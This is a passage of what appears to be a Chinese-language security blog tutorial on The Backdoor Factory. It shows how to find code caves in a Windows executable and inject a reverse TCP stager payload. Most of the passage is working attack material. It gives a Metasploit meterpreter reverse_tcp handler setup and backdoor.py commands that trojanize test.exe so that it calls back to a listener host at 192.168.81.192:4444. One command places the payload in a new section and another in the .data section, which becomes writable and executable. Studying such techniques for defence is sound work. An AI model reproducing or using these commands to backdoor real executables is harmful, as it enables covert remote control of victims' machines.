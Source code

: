 查看内存地址数据如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-10-20/0-8.png)

**(3)**

We have a winner: .data
->Begin Cave 0x7051
->End of Cave 0x7350
Size of Cave (int) 767

内存中实际地址为0x00407051-0x00407350,位于.data段中，默认权限为`RW`

查看内存地址数据如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-10-20/0-9.png)

可以看到，通过The Backdoor Factory找到的Code Caves均符合要求

### 4、添加payload

这里选用`reverse_tcp_stager_threaded`进行测试，payload长度为703

Server：

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

#### (1) 添加新区段，保存payload

```
./backdoor.py -f test.exe -H 192.168.81.192 -P 4444 -s reverse_tcp_stager_threaded -a -o test1.exe
```

新区段名称为`.sdata`，权限为`RWE`

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-10-20/1-1.png)


若指定新添加区段名称为aaa,参数如下：

```
./backdoor.py -f test.exe -H 192.168.81.192 -P 4444 -s reverse_tcp_stager_threaded -a -n aaa -o test1.exe
```

#### (2) payload保存到.data段中

```
./backdoor.py -f test.exe -H 192.168.81.192 -P 4444 -s reverse_tcp_stager_threaded -o test2.exe
```

根据提示选择`.data`段

`.data`段权限更改为`RWE`，如下图
